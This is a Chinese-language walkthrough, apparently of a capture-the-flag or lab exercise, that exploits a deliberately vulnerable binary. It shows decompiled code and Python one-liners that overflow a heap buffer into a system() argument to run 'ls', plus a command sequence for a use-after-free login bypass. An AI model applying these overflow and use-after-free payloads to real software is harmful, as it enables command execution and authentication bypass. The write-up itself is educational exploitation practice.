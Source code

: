 # vuln

Run the binary `vuln` on the device, it has a `Heap Overflow` and a `Use-after-free` vulnerability. Exploit the `Heap overflow` to execute the `ls` command on the device and
exploit the `UaF` to successfully login without authentication.

## Heap Overflow

- 找到漏洞函数的触发口，伪代码如下：

![](./img/vuln-heap-overflow-entry.png)

触发命令：`./bin/vuln heap 123`


- 找到溢出点：

1. `_heapOverflow(*(var_10 + 0x10))` 即将 argv[2] 传入
2. 通过伪代码能知道，打开`argv[2]`文件并且拷贝至 `var_20`, 这里可能发生溢出。

```c
int _heapOverflow(int arg0) {
    printf("Heap overflow challenge. Execute a shell command of your choice on the device\n");
    stack[-80] = arg0;
    printf("Welcome: from %s, printing out the current user\n", r1);
    var_10 = fopen(arg0, "rb");
    fseek(var_10, 0x0, 0x2);
    var_18 = ftell(var_10);
    fseek(var_10, 0x0, 0x0);
    var_20 = malloc(0x400);
    var_28 = malloc(0x400);
    __strcpy_chk();
    fread(var_20, 0x1, var_18, var_10);
    r0 = system(var_28);
    return r0;
}
```
3. 构造poc
    
    1. poc1
    ```bash
    $ python3 -c "print('A' * 2048)" > poc.txt
    $ ./bin/vuln heap poc.txt
    ```
    ![](./img/vuln-heap-overflow-poc1.png)
    溢出到 var_28 正好是 1024，那就简单了
    
    2. poc2
    ```bash
    $ python3 -c "print('A' * 1024+'ls')" > poc.txt
    $ ./bin/vuln heap poc.txt
    Address of main function is 0x1040dbb8c
    Heap overflow challenge. Execute a shell command of your choice on the device
    Welcome: from poc.txt, printing out the current user
    bin	img	poc.txt	vuln.md
    sh: line 1: ami: command not found
    ```
    `ls` 命令是执行成功了，但是这个错误是为啥呢`sh: line 1: ami: command not found`？

    看下汇编，这里使用[__strcpy_chk](https://refspecs.linuxbase.org/LSB_4.1.0/LSB-Core-generic/LSB-Core-generic/libc---strcpy-chk-1.html) 拷贝了字符串到 `var_28` 并检查缓存溢出：
    ![](./img/vuln-heap-overflow-poc2.png)

    3. poc3
    ![](./img/vuln-heap-overflow-poc3.png)
    再填充三个空格抵消 `whoami` 命令。


## Uaf

- 触发命令：`./bin/vuln uaf`
- 找到了大概逻辑：
    - username 命令做了啥：
        从命令行读取 `username xxx`，malloc 分配内存 -> 0x100008008 并赋值 username

    - 找到了隐藏的 reset 命令：释放`0x100008008`内存。
    - `customerChat xxx`： 命令使用 `strdup` 函数复制字符串并返回指向新分配的内存块的指针。
    - `login` 如果 *0x100008008 + 0x100 的值等于 "BBB" 就算利用成功。

所以利用漏洞的流程就是：
1. username zznq 创建用户
2. reset 释放
3. 重复多次执行直到覆盖了user的地址(注意长度 0x100+3)：customerChat BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
4. login 就能利用成功

![](./img/vuln-uaf-poc1.png)

